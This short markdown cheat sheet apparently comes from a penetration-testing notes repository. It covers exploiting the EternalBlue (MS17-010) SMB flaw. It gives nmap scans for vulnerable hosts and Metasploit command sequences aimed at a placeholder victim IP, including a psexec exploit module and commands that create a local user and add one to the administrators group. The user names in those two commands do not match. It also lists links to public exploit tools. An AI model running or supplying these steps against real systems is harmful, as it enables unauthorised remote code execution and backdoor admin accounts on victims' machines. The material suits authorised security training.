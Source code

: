 ## eternal blue (ms17_010)

nmap use with nse script:
```
- nmap -v --script vuln [victim_ip] -p 445,139
- nmap -sV -script smb-vuln-ms17-010.nse [victim_ip] -p 139,44
```

## eternal blue commands(via metasploit)
```
- use auxiliary/admin/smb/ms17_010_command
- set rhosts: [victim_ip]
- set rport: 445
- set command: net user test test123! /add
- run
- set command: net localgroup administrators tester /add
- run
```
## eternal blue psexec (via metasploit)
```
- use exploit/windows/smb/ms17_010_psexec
- set rhosts [victim_ip]
- run
```

### Download mysmb.py for eternalblue scripts

### Usefull tools for eternalblue
- https://github.com/worawit/MS17-010
- https://github.com/3ndG4me/AutoBlue-MS17-010
- https://github.com/sailay1996/eternal-pulsar
- https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a
- https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/

